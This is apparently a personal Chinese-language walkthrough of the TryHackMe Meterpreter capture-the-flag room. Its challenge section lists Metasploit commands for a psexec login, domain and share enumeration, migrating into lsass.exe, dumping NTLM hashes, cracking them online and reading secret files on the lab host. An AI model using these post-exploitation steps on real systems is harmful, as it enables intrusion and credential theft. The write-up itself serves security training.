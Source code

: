 > https://tryhackme.com/room/meterpreter
> #Metasploit #Offensive 
# Task 1 Introduction to Meterpreter

前置介绍

# Task 2 Meterpreter Flavors

介绍了不同环境，不同的条件下`Meterpreter`应该如何使用

# Task 3 Meterpreter Commands

介绍了`Meterpreter`内置的功能和命令

# Task 4 Post-Exploitation with Meterpreter

介绍了在`Meterpreter`中使用内置工具的情形

# Task 5 Post-Exploitation Challenge

```shell
use exploit/windows/smb/psexec
setg rhosts 10.10.168.34
set SMBuser ballen
set SMBpass Password1
```
![[Pasted image 20221216193221.png]]

获取计算机名称
```shell
sysinfo
```
![[Pasted image 20221216193255.png]]

获取目标计算机的目标域
```shell
use post/windows/gather/enum_domain
set session 2
```
![[Pasted image 20221216193426.png]]

获取当前计算机的`share`的信息
```shell
use post/windows/gather/enum_shares
setg session 2
```
![[Pasted image 20221216193527.png]]

获取当前计算机的NTLM哈希信息
首先，要想获取到NTLM哈希信息，要将`meterpreter`的进程迁移到`lsass.exe`所在pid
```shell
migrate 756
```
然后才能正常的通过`hashdump`获取到NTLM哈希信息
```shell
hashdump
```
![[Pasted image 20221216194225.png]]
而后通过在线的[彩虹表网站](https://crackstation.net/)，即可查到明文密码：
![[Pasted image 20221216194309.png]]

找到 `secrets.txt`这个文件
直接在`meterpreter`中进行搜索操作
```shell
search -f secrets.txt
```
*这个search没有进度条，让人很慌啊，不知道靶机有没有掉线*
```shell
meterpreter > search -f secrets.txt

Found 1 result...

c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt (35 bytes)
```
然后直接`cat`就可以了
```shell
meterpreter > cat c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt

[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.

meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"

My Twitter password is KDSvbsw3849!
```

寻找`realsecret.txt`文件
同上，直接`search`就可以了
```shell
meterpreter > search -f realsecret.txt

Found 1 result...

c:\inetpub\wwwroot\realsecret.txt (34 bytes)
meterpreter > cat "c:\inetpub\wwwroot\realsecret.txt"

The Flash is the fastest man alive
```

![[Pasted image 20221216195518.png]]